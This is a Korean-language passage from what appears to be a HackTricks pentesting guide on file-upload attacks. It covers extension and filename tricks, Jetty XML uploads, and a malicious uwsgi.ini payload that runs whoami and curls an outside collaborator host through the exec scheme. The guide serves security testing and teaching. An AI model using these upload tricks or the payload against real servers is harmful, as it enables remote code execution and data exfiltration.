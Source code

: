 ### 확인할 기타 트릭

* 이미 업로드된 파일의 **이름을 바꿀 수 있는** 취약점을 찾습니다 (확장자를 변경).
* 백도어를 실행하기 위한 **로컬 파일 포함** 취약점을 찾습니다.
* **정보 유출 가능성**:
1. **동일한 파일**을 **여러 번** (그리고 **동시에**) **동일한 이름**으로 업로드합니다.
2. **이미 존재하는** **파일** 또는 **폴더**의 **이름**으로 파일을 업로드합니다.
3. **“.”, “..”, 또는 “…”**를 이름으로 가진 파일을 업로드합니다. 예를 들어, Apache에서 **Windows**의 경우, 애플리케이션이 업로드된 파일을 “/www/uploads/” 디렉토리에 저장하면, “.” 파일 이름은 “/www/” 디렉토리에 “uploads”라는 파일을 생성합니다.
4. **NTFS**에서 쉽게 삭제할 수 없는 파일을 업로드합니다. 예를 들어 **“…:.jpg”** (Windows).
5. **Windows**에서 **잘못된 문자**가 포함된 파일을 업로드합니다. 예를 들어 `|<>*?”`가 포함된 이름 (Windows).
6. **Windows**에서 **예약된** (**금지된**) **이름**으로 파일을 업로드합니다. 예: CON, PRN, AUX, NUL, COM1, COM2, COM3, COM4, COM5, COM6, COM7, COM8, COM9, LPT1, LPT2, LPT3, LPT4, LPT5, LPT6, LPT7, LPT8, LPT9.
* 또한 **실행 파일** (.exe) 또는 **.html** (덜 의심스러운) 파일을 업로드하여 피해자가 우연히 열었을 때 **코드를 실행**하도록 시도해 보세요.

### 특수 확장자 트릭

**PHP 서버**에 파일을 업로드하려는 경우, [코드를 실행하기 위한 **.htaccess** 트릭을 확인하세요](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp#code-execution-via-httaccess).\
**ASP 서버**에 파일을 업로드하려는 경우, [코드를 실행하기 위한 **.config** 트릭을 확인하세요](../../network-services-pentesting/pentesting-web/iis-internet-information-services.md#execute-config-files).

`.phar` 파일은 Java의 `.jar`와 유사하지만 PHP용이며, **PHP 파일처럼 사용**될 수 있습니다 (PHP로 실행하거나 스크립트 내에 포함).

`.inc` 확장자는 때때로 **파일을 가져오는 데만 사용되는** PHP 파일에 사용되므로, 누군가가 **이 확장자가 실행되도록 허용했을 수 있습니다**.

## **Jetty RCE**

Jetty 서버에 XML 파일을 업로드할 수 있다면, [**새로운 \*.xml 및 \*.war가 자동으로 처리되기 때문에 RCE를 얻을 수 있습니다**](https://twitter.com/ptswarm/status/1555184661751648256/photo/1)**.** 따라서 다음 이미지에서 언급된 대로 XML 파일을 `$JETTY_BASE/webapps/`에 업로드하고 셸을 기대하세요!

![https://twitter.com/ptswarm/status/1555184661751648256/photo/1](<../../.gitbook/assets/image (1047).png>)

## **uWSGI RCE**

이 취약점에 대한 자세한 탐색은 원본 연구를 확인하세요: [uWSGI RCE Exploitation](https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html).

원격 명령 실행 (RCE) 취약점은 `.ini` 구성 파일을 수정할 수 있는 경우 uWSGI 서버에서 악용될 수 있습니다. uWSGI 구성 파일은 "매직" 변수, 자리 표시자 및 연산자를 포함하기 위해 특정 구문을 활용합니다. 특히, `@(filename)`으로 사용되는 '@' 연산자는 파일의 내용을 포함하도록 설계되었습니다. uWSGI에서 지원되는 다양한 스킴 중 "exec" 스킴은 특히 강력하여 프로세스의 표준 출력에서 데이터를 읽을 수 있습니다. 이 기능은 `.ini` 구성 파일이 처리될 때 원격 명령 실행 또는 임의 파일 쓰기/읽기를 위한 악의적인 목적으로 조작될 수 있습니다.

다음은 다양한 스킴을 보여주는 유해한 `uwsgi.ini` 파일의 예입니다:
```ini
[uwsgi]
; read from a symbol
foo = @(sym://uwsgi_funny_function)
; read from binary appended data
bar = @(data://[REDACTED])
; read from http
test = @(http://[REDACTED])
; read from a file descriptor
content = @(fd://[REDACTED])
; read from a process stdout
body = @(exec://whoami)
; curl to exfil via collaborator
extra = @(exec://curl http://collaborator-unique-host.oastify.com)
; call a function returning a char *
characters = @(call://uwsgi_func)
```
